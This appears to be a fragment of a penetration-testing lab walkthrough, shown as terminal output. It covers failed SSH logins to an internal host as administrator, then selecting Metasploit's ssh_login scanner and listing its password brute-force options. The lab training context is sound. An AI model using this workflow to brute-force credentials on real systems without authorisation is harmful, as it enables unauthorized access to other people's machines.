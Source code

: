 ```
                                 Connection Name: Local Area Connection 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.0.16.1
                                 IP address(es)
                                 [01]: 10.0.16.119
                                 [02]: fe80::3c16:57ff:18d8:4925
-sh-4.3$ dir
-sh: dir: command not found
```

```
root@attackdefense:~# ssh administrator@10.0.16.119
administrator@10.0.16.119's password: 
Permission denied, please try again.
administrator@10.0.16.119's password: 
Permission denied, please try again.
administrator@10.0.16.119's password: 
administrator@10.0.16.119: Permission denied (publickey,password,keyboard-interactive).
```

```
root@attackdefense:~# msfconsole -q
msf6 > search ssh_login

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/ssh_login                          normal  No     SSH Login Check Scanner
   1  auxiliary/scanner/ssh/ssh_login_pubkey                   normal  No     SSH Public Key Login Scanner


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssh/ssh_login_pubkey

msf6 > use 0
```

```
msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
```